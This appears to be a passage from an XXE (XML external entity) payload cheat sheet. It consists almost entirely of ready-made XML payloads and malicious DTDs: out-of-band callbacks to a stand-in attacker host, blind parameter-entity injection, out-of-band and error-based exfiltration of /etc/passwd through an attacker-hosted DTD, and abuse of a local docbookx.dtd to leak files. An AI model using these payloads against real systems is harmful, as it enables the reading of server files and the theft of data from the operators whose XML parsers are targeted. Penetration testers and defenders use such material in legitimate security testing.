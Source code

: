 ### Out-of-band Detection (OAST)
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### Using Parameter Entities for Blind XXE
```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

### Data Exfiltration (Out-of-band)
Host this DTD on attacker's server (e.g., `http://attacker.com/malicious.dtd`):
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Then send this XXE payload to the victim:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://attacker.com/malicious.dtd"> %xxe;]>
```

### Error-based Data Exfiltration
Host this DTD on attacker's server:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Then send this XXE payload:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://attacker.com/malicious.dtd"> %xxe;]>
```

### Leveraging Local DTD Files
Testing if a local DTD exists:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

Exploiting a local DTD entity (e.g., `ISOamso`):
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
